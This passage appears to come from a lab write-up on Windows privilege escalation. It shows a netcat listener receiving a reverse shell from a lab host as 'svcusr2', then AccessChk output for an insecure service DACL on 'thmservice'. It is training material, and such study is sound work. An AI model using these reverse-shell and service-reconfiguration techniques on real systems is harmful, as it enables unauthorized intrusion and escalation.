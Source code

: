 ```
        FLAGS              :
```

finally,  you'll get a reverse shell with svcusr2 privileges:

```bash
root@ip-10-10-174-91:~# nc -lvnp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.15.82 49897
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
wprivesc1\svcusr2

C:\Windows\system32>

```

<img width="1187" height="245" alt="Screenshot 2025-08-16 144659" src="https://github.com/user-attachments/assets/ffb22eda-1def-4fce-90e9-a0f5b3e20e7a" />

<img width="1337" height="144" alt="Screenshot 2025-08-16 145108" src="https://github.com/user-attachments/assets/faad01c8-6755-49fb-a81e-5dbe5ecba659" />

### **Insecure Service Permissions**

If the service executable DACL is well configured and the service's binary path is correctly quoted, but the **service's DACL** is configured to allow modification, we can reconfigure the service to point it to any executable and run it with any account.

To check for a service DACL from the command line use [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) tool

```bash
C:\tools\AccessChk>accesschk64.exe -qlc thmservice
Accesschk v6.14 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

thmservice
  DESCRIPTOR FLAGS:
      [SE_DACL_PRESENT]
      [SE_SACL_PRESENT]
      [SE_SELF_RELATIVE]
  OWNER: NT AUTHORITY\SYSTEM
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [1] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  [2] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\INTERACTIVE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [3] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SERVICE
```